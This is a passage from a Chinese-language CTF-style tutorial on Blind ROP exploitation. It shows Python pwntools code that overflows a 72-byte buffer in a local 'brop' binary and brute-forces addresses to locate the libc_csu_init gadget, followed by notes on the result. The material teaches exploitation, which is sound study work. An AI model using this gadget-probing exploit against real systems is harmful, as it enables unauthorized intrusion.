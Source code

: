 ```python
        return True
    except Exception:
        p.close()
        return False

def check_brop_gadget(length,addr):#检查地址
    try:
        p = process('./brop')
        p.recvuntil("password?\n")
        payload = 'a'*length + p64(addr) + 'a'*8*10
        p.sendline(payload)
        content = p.recv()
        p.close()
        return False
    except Exception:
        p.close()
        return True

length = 72
stop_gadget = 0x4005d0
'''
理论上应该从0x400000开始寻找，但是这个环节要找的是Libc_csu_init函数，
所以大多数的libc中Libc_csu_init函数的起始地址都在0x400740之后，所以为了减少误差，
从0x400750开始
'''
addr = 0x400750
f = open('brop.txt','w')
while 1:
    print hex(addr)
    if get_brop_gadget(length,stop_gadget, addr):
        print "possible stop_gadget :0x%x"%addr
        if check_brop_gadget(length,addr):
            print "success brop gadget:0x%x"%addr
            f.write("success brop gadget :0x%x"%addr + "\n")
            break
    addr += 1

f.close()

#brop gadget -->[0x4007ba]
```

运行结果如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598330514381-15827f41-cb6b-4e58-affe-f51ba822e1fa.png)

运行之后会得到很多的gadget地址，但是只有0x4007ba是可以继续进行操作的，如果想找到更多的gadget地址可以参考寻找stop gadget方法。但是经过后面内容的联合使用，只有0x4007ba可以执行。可以看一下IDA

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598330602492-b7fa8db5-7977-475a-9a27-73e8121fec49.png)

可以在IDA中看到0x4007ba处却是是libc_csu_init的gadget，实际操作中看不到二进制文件，这里使用IDA只是为了演示的更直观
